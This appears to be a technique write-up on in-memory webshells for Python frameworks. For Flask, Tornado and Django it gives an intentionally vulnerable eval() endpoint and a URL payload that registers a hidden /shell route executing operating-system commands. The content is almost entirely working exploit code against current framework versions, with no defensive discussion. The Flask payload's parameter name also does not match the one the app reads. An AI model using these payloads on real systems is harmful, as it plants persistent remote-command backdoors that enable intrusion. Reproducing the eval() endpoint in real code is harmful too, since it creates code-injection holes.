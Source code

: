 ### Flask

```bash
>>> importlib.metadata.version('flask')
'3.0.3'
```

#### source code

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def calc():
    result = eval(request.args.get('expression'))
    template = '<h2>result: %s!</h2>' % result
    return template

if __name__ == "__main__":
    app.run(debug=True)
```

#### payload

```python
http://127.0.0.1:5000/?name=app.url_map.add(app.url_rule_class('/shell', methods=['GET'],endpoint='shell'))

http://127.0.0.1:5000/?name=app.view_functions.update({'shell': lambda:__import__('os').popen(app.request_context.__globals__['request_ctx'].request.args.get('cmd', 'whoami')).read()})
```

#### result

![](./images/1.png)

### Tornado

```bash
>>> importlib.metadata.version('tornado')
'6.4'
```

#### source code

```python
import tornado

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        result = eval(self.get_argument('expression'))
        self.write('<h2>result: %s!</h2>' % result)

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ], debug=True, autoreload=True)

if __name__ == '__main__':
    app = make_app()
    app.listen(5000)
    print("listen: 5000")
    tornado.ioloop.IOLoop.instance().start()
```

#### payload

```python
http://127.0.0.1:5000/?expression=self.application.add_handlers('.*', [('/shell', type('ShellHandler', (tornado.web.RequestHandler,), {'get': lambda self: self.write(__import__('os').popen(self.get_argument('cmd', 'id')).read())}))])
```

#### result

![](images/2.png)

![](images/3.png)

### Django

```bash
>>> django.VERSION
(5, 0, 6, 'final', 0)
```

#### source code

```python
# memshell/urls.py
from django.contrib import admin
from django.urls import path
from .views import calc

urlpatterns = [
    path('admin/', admin.site.urls),
    path('calc', calc)
]

# memshell/views.py
from django.http import HttpResponse

def calc(request):
    result = eval(request.GET.get('expression'))
    return HttpResponse('<h2>result: %s!</h2>' % result)
```

#### payload

```python
http://localhost:8000/calc?expression=__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns.append(__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read())))
```

#### result

![](images/4.png)